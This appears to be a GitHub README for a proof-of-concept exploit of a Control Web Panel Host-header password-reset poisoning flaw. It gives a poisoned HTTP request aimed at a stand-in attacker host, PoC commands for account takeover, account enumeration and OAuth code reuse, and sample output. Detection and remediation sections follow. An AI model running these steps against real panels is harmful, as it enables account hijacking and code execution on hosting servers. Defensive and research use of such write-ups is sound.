

<div align="center">

# CVE-2026-124020

### Control Web Panel — Host Header Password Reset Poisoning to RCE


</div>

---

## Overview

Control Web Panel (CWP) < 1.30.6 builds the password-reset link from the unauthenticated `Host` header. By poisoning this header, an attacker intercepts the reset link sent to the legitimate user, captures the live recovery code, and takes over any hosting account — then achieves code execution through the File Manager and Crontab modules.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-124020 |
| **CVSS 4.0** | `9.2 Critical` — `AV:N/AC:L/AT:P/PR:N/UI:N/VC:H/VI:H/VA:H` |
| **CVSS 3.1** | `8.1 High` — `AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | CWE-640 (Weak Password Recovery Mechanism for Forgotten Password) |
| **Affected** | CWP < 1.30.6 (both CWP and CWPpro) |
| **Fixed** | CWP 1.30.6 |
| **Sibling** | CVE-2026-124021 — same recovery code accepted by OAuth API on port 2304 |
| **Auth Required** | None |
| **Disclosed** | 2026-11-18 |

---

## Vulnerability Details

`/login/index.php?acc=lostpass` accepts `username` and `email` (acting as an exact-pair oracle) and then performs a loopback request to the internal reset route carrying the caller's `$_SERVER['HTTP_HOST']`. The reset URL mailed to the account owner is built from the attacker-supplied host:

```http
POST /login/index.php?acc=lostpass HTTP/1.1
Host: attacker.example:8080
Content-Type: application/x-www-form-urlencoded

username=victim&email=victim%40example.com
```

The legitimate user receives an email with a reset link pointing to `attacker.example:8080`. When they click it, the attacker captures the single-use recovery code and immediately calls `/login/index.php?acc=newpass` on the real panel to reset the password.

**Additional exposure via CVE-2026-124021:** Recovery codes are stored in `oauth_authorization_codes` and are also accepted as OAuth authorization by the port 2304 administration API — no reset step needed.

---

## Attack Flow



---

## PoC Usage

> **Warning:** Authorized testing only. This PoC starts a listener that the victim must click. Never use against accounts you do not own.

### Setup

```bash
pip install -r requirements.txt
# requirements: requests flask
```

### Full attack chain

```bash
python3 poc.py \
    --target https://cwp.example.com:2083 \
    --username admin \
    --email admin@example.com \
    --attacker-host attacker.example.com:8080
```

Expected output — vulnerable CWP:
```
[*] target: https://cwp.example.com:2083
[*] triggering password reset for admin (admin@example.com)
[+] reset email triggered — link will point to attacker.example.com:8080
[*] starting listener on :8080 — waiting for victim to click reset link...
[+] CAPTURED: recovery code = abc123def456...
[*] spending recovery code to reset password...
[+] VULNERABLE — admin password reset successfully
[*] logging in as admin...
[+] authenticated as: admin
[+] session cookie written to cookies.txt
```

### Oracle mode — enumerate valid username/email pairs

```bash
python3 poc.py \
    --target https://cwp.example.com:2083 \
    --oracle \
    --username-list usernames.txt \
    --email victim@example.com
```

### CVE-2026-124021 — OAuth API code spend

```bash
# Use the captured code directly on the OAuth API without resetting the password
python3 poc.py \
    --target https://cwp.example.com:2304 \
    --oauth-code CAPTURED_TOKEN \
    --mode oauth
```

### Available flags

| Flag | Description |
|---|---|
| `--target URL` | CWP panel URL (required) |
| `--username NAME` | Target CWP username |
| `--email EMAIL` | Account's registered email |
| `--attacker-host HOST:PORT` | Attacker listener address |
| `--oracle` | Username/email pair enumeration |
| `--oauth-code CODE` | Spend captured code on OAuth API (CVE-2026-124021) |
| `--mode reset\|oauth` | Attack mode (default: `reset`) |
| `--proxy URL` | HTTP proxy for Burp Suite |

### Expected output — patched build (CWP 1.30.6)

```
[*] triggering reset for admin...
[*] POST /login/index.php?acc=lostpass
    Host header ignored — reset link uses configured server hostname
[-] reset link does not point to attacker host
[+] NOT vulnerable
```

---

## Detection

| Indicator | Notes |
|---|---|
| `Host` header mismatching server address in reset request | Web server log: `Host:` value not matching CWP's own hostname |
| Password reset emails with unexpected link domain | Email gateway: outbound messages containing foreign hostnames in links |
| Recovery code spent from unexpected IP | CWP audit log: `acc=newpass` from IP different from email click |

---

## Impact

Full account takeover for any CWP user whose username and email are known. With an administrator account the attacker can upload PHP files via File Manager, schedule them via Crontab, and achieve code execution as the hosting account. VulnCheck counts ~124k internet-facing CWP instances.

---

## Remediation

Upgrade to **CWP 1.30.6**. The fix builds reset links from the configured server hostname rather than from the `Host` header.

| Action | Detail |
|---|---|
| Upgrade CWP | 1.30.6 from control-webpanel.com |
| Rotate admin credentials | All accounts potentially exposed |
| Monitor reset emails | Alert on outbound reset links pointing to unexpected domains |
| Restrict port 2304 | Firewall admin API access to management IPs only |

---

## References

- VulnCheck CVE-2026-124020: https://vulncheck.com/advisories/cwp-host-header
- CVE-2026-124021 (OAuth sibling): https://www.cve.org/CVERecord?id=CVE-2026-124021
- CWP changelog: https://control-webpanel.com/changelog
- CVE Record: https://www.cve.org/CVERecord?id=CVE-2026-124020

---

> **Disclaimer:** For authorized security research and controlled lab use only. MIT License.